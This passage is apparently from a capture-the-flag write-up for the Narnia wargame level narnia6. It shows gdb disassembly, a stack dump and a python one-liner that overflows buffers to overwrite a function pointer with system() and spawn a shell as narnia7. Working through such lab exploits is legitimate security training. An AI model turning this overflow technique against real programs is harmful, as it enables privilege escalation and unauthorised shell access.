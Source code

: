 ```
   0x0804860c <+312>:   mov    eax,DWORD PTR [eax]
   0x0804860e <+314>:   mov    DWORD PTR [esp+0x4],eax
   0x08048612 <+318>:   lea    eax,[esp+0x28]
   0x08048616 <+322>:   mov    DWORD PTR [esp],eax
   0x08048619 <+325>:   call   0x80483c0 <strcpy@plt>
   0x0804861e <+330>:   mov    eax,DWORD PTR [esp+0x38]
   0x08048622 <+334>:   and    eax,0xff000000
   0x08048627 <+339>:   cmp    eax,0xff000000
   0x0804862c <+344>:   jne    0x804863a <main+358>
   0x0804862e <+346>:   mov    DWORD PTR [esp],0xffffffff
   0x08048635 <+353>:   call   0x80483f0 <exit@plt>
   0x0804863a <+358>:   lea    eax,[esp+0x30]
   0x0804863e <+362>:   mov    DWORD PTR [esp],eax
   0x08048641 <+365>:   mov    eax,DWORD PTR [esp+0x38]
   0x08048645 <+369>:   call   eax
   0x08048647 <+371>:   mov    DWORD PTR [esp],0x1
   0x0804864e <+378>:   call   0x80483f0 <exit@plt>
End of assembler dump.
(gdb) b *main+369
Breakpoint 1 at 0x8048645
(gdb) r
Starting program: /games/narnia/narnia6 AAAAAAAA BBBBBBBB

Breakpoint 1, 0x08048645 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6b250 <system>
(gdb) x/50xw $esp
0xffffd6c0:     0xffffd6f0      0xffffd8fd      0x00000021      0x08048399
0xffffd6d0:     0xf7fcf3e4      0x00008000      0x08049910      0xffffffff
0xffffd6e0:     0xffffffff      0xf7e5f116      0x42424242      0x42424242
0xffffd6f0:     0x41414100      0x41414141      0x08048300      0x00000003
0xffffd700:     0x08048660      0x00000000      0x00000000      0xf7e454b3
0xffffd710:     0x00000003      0xffffd7a4      0xffffd7b4      0xf7fd3000
0xffffd720:     0x00000000      0xffffd71c      0xffffd7b4      0x00000000
0xffffd730:     0x08048280      0xf7fceff4      0x00000000      0x00000000
0xffffd740:     0x00000000      0xc59967b5      0xf29fa3a5      0x00000000
0xffffd750:     0x00000000      0x00000000      0x00000003      0x08048420
0xffffd760:     0x00000000      0xf7ff0a90      0xf7e453c9      0xf7ffcff4
0xffffd770:     0x00000003      0x08048420      0x00000000      0x08048441
0xffffd780:     0x080484d4      0x00000003
```

`fp` is stored at `0xffffd6f8` and `b1` and `b2` are directly above it on the stack.

In x86 `esp` points to the argument list of a function just before it's called. In our case `esp` is pointing to `0xffffd6f0`, which is where `b1` is stored. Given that our objective is to execute `system("/bin/sh")` we would like this memory location to store `/bin/sh` (null terminated!) and `0xffffd6f8` (`fp`) to store (`0xf7e6b250`), which is the address of `system`. To achieve this we can use `b1` to overwrite `fp` and `b2` to write `/bin/sh` to the stack (a null byte will be automatically appended to it):

```
narnia6@melinda:/narnia$ ./narnia6 $(python -c "print '\x41'*8 + '\x50\xb2\xe6\xf7' + ' ' + '\x41'*8 + '/bin/sh'")
$ whoami
narnia7
```
